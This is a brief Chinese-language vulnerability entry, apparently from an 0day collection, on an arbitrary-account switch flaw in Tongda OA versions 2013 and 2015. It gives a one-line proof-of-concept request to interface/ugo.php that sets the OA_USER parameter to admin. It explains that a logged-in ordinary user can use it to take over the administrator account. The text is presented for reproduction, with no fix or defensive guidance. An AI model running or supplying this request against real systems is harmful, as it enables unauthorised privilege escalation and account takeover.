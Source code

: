 # 通达 oa 任意账号跳转

> 原文：[http://book.iwonder.run/0day/通达 oa/5.html](http://book.iwonder.run/0day/通达 oa/5.html)

## 一、漏洞简介

需要登录

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

POC:

```
http://0-sec.org/interface/ugo.php?OA_USER=admin 
```

通过控制 OA_USER 参数进行任意⽤户的跳转，⽐如说你现在是个普通权限的⽤户，使用这个⻚面即可跳转到 admin 用户下面。

